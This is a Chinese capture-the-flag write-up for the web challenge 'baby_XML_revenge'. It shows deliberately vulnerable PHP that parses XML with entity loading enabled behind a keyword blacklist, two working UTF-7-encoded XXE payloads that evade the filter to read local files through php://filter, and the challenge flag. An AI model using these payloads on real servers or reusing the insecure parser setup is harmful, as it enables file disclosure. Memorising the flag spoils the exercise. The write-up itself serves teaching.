


* 题目名称： baby_XML_revenge
* 题目类型： WEB
* 题目难度： 简单
* 出题人： S1mh0
* 考点：有过滤的XXE
* 描述：可扩展标记语言就是最牛逼的！漏洞？没有的事！（下调了难度不会还做不出来吧，杂鱼~杂鱼~）
* flag：XSCTF{n0body_Kn0w_Xxe_b3tter_th4n_Me}
* Writeup：

源码

```php
<!doctype html>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" /><!-- zaku~zaku~zaku~zaku~zaku~zaku~zaku~zaku~zaku~zaku~ seCr3t.php -->
    </head>
    <body>
        
    </body>
    <!-- did u find the location of flag again? -->
</html>
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
   if(empty($xmlfile))
    {
        echo "need xmlfile to post";
    }
    else
    {
        if (preg_match('/\<\!DOCTYPE/is', $xmlfile))
        {
            die('<!DOCTYPE is detected, hacker!');
        }
        if (preg_match('/\<\!ENTITY/is', $xmlfile))
        {
            die('<!ENTITY is detected, hacker!');
        }
        if (preg_match('/index|expect|glob|phar|host|decode|conf|\%/is',$xmlfile))
        {
            die("bad word!");
        }
    }
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
考虑到新手赛可能选手没有想到UTF-7或者UTF-16编码转换进行绕过，对过滤的提示设置的更加明显，并减少了黑名单关键词，可以使用php伪协议读

由于flag文件和seCr3t.php都是被`<>`包含住的，因此需要通过CDATA 配合外部DTD文档引入来读取，或者直接通过php伪协议读取，因此做题思路是：

1、首先查看首页源代码发现seCr3t.php，利用编码绕过，直接通过php伪协议读取

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-file:///var/www/html/seCr3t.php+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```



得到flag路径

```php
<?php
$flag_path = "FLAGflag114514";
?>
```


2、继续使用php伪协议直接读取flag

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-file:///FLAGflag114514+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```



```
XSCTF{n0body_Kn0w_Xxe_b3tter_th4n_Me}
```

